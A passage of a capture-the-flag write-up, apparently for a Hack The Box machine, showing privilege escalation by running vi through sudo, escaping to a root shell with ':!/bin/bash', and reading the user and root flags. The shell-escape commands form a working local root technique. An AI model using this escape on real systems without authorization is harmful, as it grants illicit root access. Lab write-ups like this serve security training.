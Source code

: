 3. Run __`/usr/bin/vi`__ using __`sudo`__:
   ```console
   $ sudo /usr/bin/vi /var/www/html/ggwp
   ```

4. Execute commands while inside vim:
   ```console
   ~
   ~
   ~
   ~ 
   ~
   ~
   ~
   ~
   :!/bin/bash
   ```

5. Now having a __root__ shell:
   ```console
   # cat /home/*/user.txt
     a448........................bac8

   # cat /root/root.txt
     c2b0........................6721

        ___ ___
      /| |/|\| |\
     /_| ´ |.` |_\           We are open! (Almost)
       |   |.  |
       |   |.  |         Join the beta HTB Swag Store!
       |___|.__|       https://hackthebox.store/password
     
                        PS: Use root flag as password!
   ```
